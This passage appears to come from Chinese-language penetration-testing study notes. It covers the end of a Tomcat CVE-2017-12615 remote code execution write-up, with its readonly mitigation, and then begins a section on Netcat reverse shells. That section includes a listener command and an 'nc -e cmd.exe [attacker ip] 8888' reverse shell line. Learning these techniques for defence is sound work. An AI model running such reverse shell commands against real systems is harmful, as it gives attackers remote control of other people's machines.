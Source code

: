 写入shell成功

![1564280484063](IMG/1564280484063.png)

> 而且经过测试，这个漏洞影响全部的 Tomcat 版本，从 5.x 到 9.x 无不中枪。
>
> 目前来说，最好的解决方式是将 conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 true，才能防止漏洞

ref: [Tomcat 远程代码执行漏洞分析（CVE-2017-12615）及补丁 Bypass](https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e)

## Netcat + LCX的用法笔记

之前一直听群里大佬在谈"反弹shell", 虽然知道是在后渗透阶段, 无法正向连接时的必杀技, 可是不知道怎么写, 对于nc命令也是一知半解的, 因此专门抽时间深入学习一下

#### windows反向连接linux

```shell
nc -lvvp 8888	                  //控制端, 监听
nc -e cmd.exe [attacker ip] 8888  //受控端, 反向shell连接
```

![window反向连接linux](IMG/1563198005308.png)

进wireshark抓包, 可以看出两边是建立了双向ssh连接的,
